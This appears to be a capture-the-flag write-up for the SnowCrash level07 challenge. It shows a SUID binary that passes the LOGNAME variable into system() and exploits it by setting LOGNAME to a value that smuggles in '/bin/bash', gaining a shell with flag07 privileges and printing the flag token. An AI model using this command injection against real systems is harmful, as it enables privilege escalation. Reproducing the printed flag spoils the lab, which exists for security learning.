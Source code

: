We can find 32 bits ELF binary (SUID bit is set btw):
```C
int32_t main(int32_t argc, char** argv, char** envp)
{
	gid_t gid = getegid();
    uid_t uid = geteuid();
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    
    char* string = nullptr;
    asprintf(&string, "/bin/echo %s ", getenv("LOGNAME"));
    
    return system(string);
}

```

\- This program gets the value of the ENV variable LOGNAME and executes /bin/echo value

Let's exploit this :
```bash
> export LOGNAME="test ; /bin/bash"

> env | grep LOGNAME
LOGNAME=test ; /bin/bash

The program will execute : echo TEST ; /bin/bash
With flag06 permissions

> level07@SnowCrash:~$./level07 
test
bash: /home/user/level07/.bashrc: Permission denied

> flag07@SnowCrash:~$
> flag07@SnowCrash:~$ getflag
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

*fiumuikeil55xe9cu4dood66h*




